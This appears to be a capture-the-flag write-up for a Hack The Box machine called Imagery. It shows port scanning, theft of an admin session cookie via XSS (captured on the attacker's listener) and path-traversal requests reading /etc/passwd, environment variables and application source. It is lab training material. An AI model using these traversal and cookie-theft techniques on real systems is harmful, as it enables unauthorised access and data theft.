## Table of Contents

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 8000/TCP](#Enumeration-of-Port-8000TCP)
- [Cross-Site Scripting (XSS)](#Cross-Site-Scripting-XSS)
    - [Admin Session Hijacking by stealing Admin Cookie](#Admin-Session-Hijacking-by-stealing-Admin-Cookie)
- [Local File Inclusion (LFI)](#Local-File-Inclusion-LFI)
- [Privilege Escalation to testuser](#Privilege-Escalation-to-testuser)
    - [Cracking the Hash (testuser)](#Cracking-the-Hash-testuser)
- [Initial Access](#Initial-Access)
    - [Exiftool Remote Code Execution (RCE)](#Exiftool-Remote-Code-Execution-RCE)
- [Enumeration (web)](#Enumeration-web)
- [Privilege Escalation to mark](#Privilege-Escalation-to-mark)
    - [Investigating Extracted Files](#Investigating-Extracted-Files)
    - [Cracking the Hash (mark)](#Cracking-the-Hash-mark)
- [user.txt](#usertxt)
- [Enumeration (mark)](#Enumeration-mark)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
- [root.txt](#roottxt)

## Summary

The box is very much build as a straight CTF challenge which focuses on typical `Web Application Vulnerabilities`. Therefore it starts with `Session Takeover` aka `Session Hijacking` by stealing a `Session Cookie` through `Cross-Site Scripting (XSS)` on a `Report Form`.

The newly gained user session leads to `Local File Inclusion (LFI)`. Through that it is possible to completely enumerate the `Python-based Web Application` and `exfiltrate` some of the users `hashed passwords`.

For this box `crackstation.net` comes in clutch and provides the `Cleartext Passwords` which enables access to another user.

This user is allowed to use a specific endpoint of `/apply_visual_transform` which gets called after a `uploaded pictures` gets `edited`. The application makes use of `Exiftool` and `unsafe parameters` which then lead to `Command Injection` and to `Initial Access` on the box.

From there on the `Privilege Escalation` to the second user requires to `decryp` a `Backup File` to find another `hashed password`. Throwing it in `crackstation.net` again and this grants access to the `user.txt`.

For the `PrivEsc` to `root` the `configuration` of a `malicious variant`  of a `Cronjob` through a `Custom Backup Application` executed using `sudo` is required.

## Reconnaissance

### Port Scanning

As usual we started with our initial `Port Scan` which revealed port `22/TCP` and port `8000/TCP`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- 10.129.110.48 --min-rate 10000 
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-27 21:03 CEST
Nmap scan report for 10.129.110.48
Host is up (0.022s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 6.19 seconds
```

We noticed that on port `8000/TCP` some sort of `Python-based Web Application` was running because of the `HTTP-Server-Header` of `Werkyeug httpd`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p 22,8000 10.129.110.48
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-27 21:03 CEST
Nmap scan report for 10.129.110.48
Host is up (0.014s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.7p1 Ubuntu 7ubuntu4.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:94:fb:70:36:1a:26:3c:a8:3c:5a:5a:e4:fb:8c:18 (ECDSA)
|_  256 c2:52:7c:42:61:ce:97:9d:12:d5:01:1c:ba:68:0f:fa (ED25519)
8000/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.12.7)
|_http-server-header: Werkzeug/3.1.3 Python/3.12.7
|_http-title: Image Gallery
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.38 seconds
```

### Enumeration of Port 8000/TCP

We started investigating the `Web Application` which offered the option to `Register`, to `Login`, after the successful login to `Upload` pictures and at the bottom of the main page, to `Report` a `Bug`.

- [http://10.129.110.48:8000/](http://10.129.110.48:8000/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://10.129.110.48:8000/
http://10.129.110.48:8000/ [200 OK] Country[RESERVED][ZZ], Email[support@imagery.com], HTML5, HTTPServer[Werkzeug/3.1.3 Python/3.12.7], IP[10.129.110.48], Python[3.12.7], Script, Title[Image Gallery], Werkzeug[3.1.3]
```
















Next we checked the `Website Source` and found a hint about the `Account` for `Administrator` which indicated that either we would be already `Administrator` because we `registered` a `user` or the more likely option, that there would be another user we need to target.

```shell
<p class="font-bold">No Administrator Found!
It looks like there are no administrator accounts registered yet. The first user to register will automatically become the administrator. Please register an account to gain admin access.
```



## Cross-Site Scripting (XSS)

### Admin Session Hijacking by stealing Admin Cookie

To follow the idea of a different user we assumed that it has some `client-side` aspect and therefore we tried `Session Takeover` or `Session Hijacking` by `stealing` the `Session Cookie` of whatever user existed.

We tested a few payloads and got a `response` containing a `Session Cookie` after a few seconds.

```shell

```



```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Imagery/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.110.48 - - [27/Sep/2025 21:39:18] "GET /?c=session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aNg9ZA.J9T7jORjpHuDqSVuNPMY_G1laCU HTTP/1.1" 200 -
10.129.110.48 - - [27/Sep/2025 21:39:18] "GET /?c=session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aNg9ZA.J9T7jORjpHuDqSVuNPMY_G1laCU HTTP/1.1" 200 -
10.129.110.48 - - [27/Sep/2025 21:39:18] code 404, message File not found
10.129.110.48 - - [27/Sep/2025 21:39:18] "GET /favicon.ico HTTP/1.1" 404 -
```

Next we simply `replaced` our existing `Cookie` and `refreshed` the `page` and boom, we switched to `Admin` which opened the `Admin Dashboard` to us.

```shell
.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aNg9ZA.J9T7jORjpHuDqSVuNPMY_G1laCU
```





## Local File Inclusion (LFI)

Since `downloading` files and especially `Logfiles` always are offering the chance of `Local File Inclusion (LFI)` vulnerabilities, we decided to check this first.

```shell
GET /admin/get_system_log?log_identifier=admin%40imagery.htb.log HTTP/1.1
Host: 10.129.110.48:8000
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.129.110.48:8000/
Accept-Encoding: gzip, deflate, br
Cookie: session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aNg_Cw.MjuBSN2rc9lbyRM2C-l6cY8R8jQ
Connection: keep-alive


```

```shell
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.12.7
Date: Sat, 27 Sep 2025 19:48:10 GMT
Content-Disposition: attachment; filename="admin@imagery.htb.log"
Content-Type: text/plain; charset=utf-8
Content-Length: 1749
Last-Modified: Sat, 27 Sep 2025 19:47:18 GMT
Cache-Control: no-cache
ETag: "1759002438.1532178-1749-2828407261"
Date: Sat, 27 Sep 2025 19:48:10 GMT
Vary: Cookie
Connection: close

[2025-09-27T19:30:14.884157] Logged in successfully.
[2025-09-27T19:30:14.883563] Logged in successfully.
[2025-09-27T19:31:16.649594] Logged in successfully.
[2025-09-27T19:31:16.649685] Logged in successfully.
[2025-09-27T19:32:07.921475] Logged in successfully.
[2025-09-27T19:32:07.947692] Logged in successfully.
[2025-09-27T19:33:14.009871] Logged in successfully.
[2025-09-27T19:33:14.009824] Logged in successfully.
[2025-09-27T19:34:15.699284] Logged in successfully.
[2025-09-27T19:34:15.699190] Logged in successfully.
[2025-09-27T19:35:17.587408] Logged in successfully.
[2025-09-27T19:35:17.589477] Logged in successfully.
[2025-09-27T19:36:16.976017] Logged in successfully.
[2025-09-27T19:36:17.002449] Logged in successfully.
[2025-09-27T19:37:21.916630] Logged in successfully.
[2025-09-27T19:38:14.466092] Logged in successfully.
[2025-09-27T19:38:14.469169] Logged in successfully.
[2025-09-27T19:39:16.141281] Logged in successfully.
[2025-09-27T19:40:16.750116] Logged in successfully.
[2025-09-27T19:40:16.766802] Logged in successfully.
[2025-09-27T19:41:16.329667] Logged in successfully.
[2025-09-27T19:41:16.332627] Logged in successfully.
[2025-09-27T19:42:11.732778] Logged in successfully.
[2025-09-27T19:42:11.732304] Logged in successfully.
[2025-09-27T19:43:10.911324] Logged in successfully.
[2025-09-27T19:43:10.914378] Logged in successfully.
[2025-09-27T19:44:15.086346] Logged in successfully.
[2025-09-27T19:44:15.088321] Logged in successfully.
[2025-09-27T19:45:14.655514] Logged in successfully.
[2025-09-27T19:45:14.658697] Logged in successfully.
[2025-09-27T19:46:19.408033] Logged in successfully.
[2025-09-27T19:47:18.104017] Logged in successfully.
[2025-09-27T19:47:18.153510] Logged in successfully.
```

Therefore we tried to `escape` whatever `directory` we were in and see if we could `read` the content of `/etc/passwd`.

```shell
GET /admin/get_system_log?log_identifier=../../../../../etc/passwd HTTP/1.1
Host: 10.129.110.48:8000
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.129.110.48:8000/
Accept-Encoding: gzip, deflate, br
Cookie: session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aNg_Cw.MjuBSN2rc9lbyRM2C-l6cY8R8jQ
Connection: keep-alive


```

And indeed we found a `LFI` vulnerability in the `Web Application`.

```shell
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.12.7
Date: Sat, 27 Sep 2025 19:48:53 GMT
Content-Disposition: attachment; filename=passwd
Content-Type: text/plain; charset=utf-8
Content-Length: 1982
Last-Modified: Mon, 22 Sep 2025 19:11:49 GMT
Cache-Control: no-cache
ETag: "1758568309.7066295-1982-3159953534"
Date: Sat, 27 Sep 2025 19:48:53 GMT
Vary: Cookie
Connection: close

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
usbmux:x:100:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:102:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:103:1::/var/cache/pollinate:/bin/false
polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin
syslog:x:104:104::/nonexistent:/usr/sbin/nologin
uuidd:x:105:105::/run/uuidd:/usr/sbin/nologin
tcpdump:x:106:107::/nonexistent:/usr/sbin/nologin
tss:x:107:108:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:108:109::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:989:989:Firmware update daemon:/var/lib/fwupd:/usr/sbin/nologin
web:x:1001:1001::/home/web:/bin/bash
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
snapd-range-524288-root:x:524288:524288::/nonexistent:/usr/bin/false
snap_daemon:x:584788:584788::/nonexistent:/usr/bin/false
mark:x:1002:1002::/home/mark:/bin/bash
_laurel:x:101:988::/var/log/laurel:/bin/false
dhcpcd:x:110:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false
```

This revealed two `usernames`, `web` and `mark`.

| Username |
| -------- |
| web      |
| mark     |

Since this was a `Python-based Web Application` we started `numerating` our way through it. First we checked the `app.py` itself.

```shell
GET /admin/get_system_log?log_identifier=../../../../../proc/self/cwd/app.py HTTP/1.1
Host: 10.129.110.48:8000
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.129.110.48:8000/
Accept-Encoding: gzip, deflate, br
Cookie: session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aNg_Cw.MjuBSN2rc9lbyRM2C-l6cY8R8jQ
Connection: keep-alive


```

```shell
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.12.7
Date: Sat, 27 Sep 2025 19:53:36 GMT
Content-Disposition: attachment; filename=app.py
Content-Type: text/plain; charset=utf-8
Content-Length: 1943
Last-Modified: Tue, 05 Aug 2025 15:21:25 GMT
Cache-Control: no-cache
ETag: "1754407285.0-1943-1940984834"
Date: Sat, 27 Sep 2025 19:53:36 GMT
Vary: Cookie
Connection: close

from flask import Flask, render_template
import os
import sys
from datetime import datetime
from config import *
from utils import _load_data, _save_data
from utils import *
from api_auth import bp_auth
from api_upload import bp_upload
from api_manage import bp_manage
from api_edit import bp_edit
from api_admin import bp_admin
from api_misc import bp_misc

app_core = Flask(__name__)
app_core.secret_key = os.urandom(24).hex()
app_core.config['SESSION_COOKIE_HTTPONLY'] = False

app_core.register_blueprint(bp_auth)
app_core.register_blueprint(bp_upload)
app_core.register_blueprint(bp_manage)
app_core.register_blueprint(bp_edit)
app_core.register_blueprint(bp_admin)
app_core.register_blueprint(bp_misc)

@app_core.route('/')
def main_dashboard():
    return render_template('index.html')

if __name__ == '__main__':
    current_database_data = _load_data()
    default_collections = ['My Images', 'Unsorted', 'Converted', 'Transformed']
    existing_collection_names_in_database = {g['name'] for g in current_database_data.get('image_collections', [])}
    for collection_to_add in default_collections:
        if collection_to_add not in existing_collection_names_in_database:
            current_database_data.setdefault('image_collections', []).append({'name': collection_to_add})
    _save_data(current_database_data)
    for user_entry in current_database_data.get('users', []):
        user_log_file_path = os.path.join(SYSTEM_LOG_FOLDER, f"{user_entry['username']}.log")
        if not os.path.exists(user_log_file_path):
            with open(user_log_file_path, 'w') as f:
                f.write(f"[{datetime.now().isoformat()}] Log file created for {user_entry['username']}.\n")
    port = int(os.environ.get("PORT", 8000))
    if port in BLOCKED_APP_PORTS:
        print(f"Port {port} is blocked for security reasons. Please choose another port.")
        sys.exit(1)
    app_core.run(debug=False, host='0.0.0.0', port=port)


```

Then we checked for `Leaks` inside the `Environment Variables`.

```shell
GET /admin/get_system_log?log_identifier=../../../../../proc/self/environ HTTP/1.1
Host: 10.129.110.48:8000
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.129.110.48:8000/
Accept-Encoding: gzip, deflate, br
Cookie: session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aNg_Cw.MjuBSN2rc9lbyRM2C-l6cY8R8jQ
Connection: keep-alive


```

Based on the `imports` of the `app.py` we sifted through each of them and found code that contained information on how several functions of the application got handled. 

```shell
GET /admin/get_system_log?log_identifier=../../../../../proc/self/cwd/api_edit.py HTTP/1.1
Host: 10.129.110.48:8000
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.129.110.48:8000/
Accept-Encoding: gzip, deflate, br
Cookie: session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aNg_Cw.MjuBSN2rc9lbyRM2C-l6cY8R8jQ
Connection: keep-alive


```

```shell
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.12.7
Date: Sat, 27 Sep 2025 20:04:53 GMT
Content-Disposition: attachment; filename=api_edit.py
Content-Type: text/plain; charset=utf-8
Content-Length: 11876
Last-Modified: Tue, 05 Aug 2025 08:57:07 GMT
Cache-Control: no-cache
ETag: "1754384227.0-11876-3724088832"
Date: Sat, 27 Sep 2025 20:04:53 GMT
Vary: Cookie
Connection: close

from flask import Blueprint, request, jsonify, session
from config import *
import os
import uuid
import subprocess
from datetime import datetime
